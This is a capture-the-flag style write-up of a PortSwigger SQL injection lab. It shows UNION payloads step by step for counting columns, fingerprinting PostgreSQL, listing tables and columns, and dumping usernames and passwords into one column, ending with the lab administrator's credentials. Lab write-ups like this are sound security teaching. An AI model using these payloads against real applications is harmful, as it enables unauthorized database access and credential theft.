# PortSwigger SQLi Lab #6 Write-Up

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

<br>

### **1. Determine the number of columns and data types returned from a query.**
Since it seems as if there are two columns, try to kill two birds with one stone. If there is a 200 status code, this means the first column is a string while there are two columns. It is known that only one column will be a string from the prompt of the lab.

```SQL
' UNION select 'a', NULL--
500 Internal Server Error

' UNION select NULL, 'a'--
```

200 OK


<br>

> **Number of columns = 2**

> **Data types = unknown, string**

<br>

### 2. Determine the type/version of the database.

<br>

Use the following portswigger cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>

Microsoft Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, @@version--
```
500 Internal Server Error, it is not a microsoft database.

<br> 

PostgreSQL Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, version()--
```
200 OK; it is a postgreSQL database.


``` HTML
                           <th>PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit</th>
```
<br>

> Database Type = PostgreSQL

<br>

### 3. Find the table names of the PostgresSQL databse.

Using the cheatsheet:
```SQL
SELECT * FROM information_schema.tables
```
The correct way to specific table names in PostgreSQL is 'table_name'.

```SQL
' UNION SELECT NULL, table_name FROM information_schema.tables--
```
In the 200 response, the table 'users' can be find which likely has information of the usernames and passwords.

> Table Name = 'users'

<br>

### 4. Now find the column names of the 'users' table. 

From the cheat sheet:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```


```SQL
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users'--
```
The two columns 'username' and 'password' can be found in the response.

> Column Names = username, password

<br>

### 5. Now that the column names and table names is known, retreive multiple values in a single column.

<br>

To retrevie multiple values in a single column use the || operator. 
Something like ||'~'|| will separate each output in the same column by the listed character, ~.

```SQL
' UNION SELECT NULL, username||'~'||password FROM users--
```
In the 200 response, the following can be found:
```HTML
<th>
    administrator~cldx3xkz6lkikrst58su
</th>
```
> Username = administrator
> Password = cldx3xkz6lkikrst58su 

<br>

### 6. Return to the website and login as the administrator.

<br> 

### Congradulations! The lab has been completed!

